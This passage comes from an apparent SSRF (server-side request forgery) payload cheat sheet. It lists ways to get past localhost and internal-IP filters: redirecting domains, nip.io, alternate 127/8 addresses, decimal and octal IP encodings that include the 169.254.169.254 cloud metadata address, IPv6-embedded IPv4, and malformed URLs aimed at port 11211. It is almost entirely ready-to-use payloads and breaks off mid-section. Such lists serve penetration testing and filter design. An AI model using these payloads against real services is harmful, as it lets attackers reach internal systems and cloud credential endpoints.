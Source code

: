 ### Bypass localhost with a domain redirection

```powershell
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

The service nip.io is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass localhost with CIDR 

It's a /8

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using a decimal IP location

```powershell
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

### Bypass using IPv6/IPv4 Address Embedding

[IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

```powershell
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### Bypass using malformed urls

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### Bypass using rare address

You can short-hand IP addresses by dropping the zeros
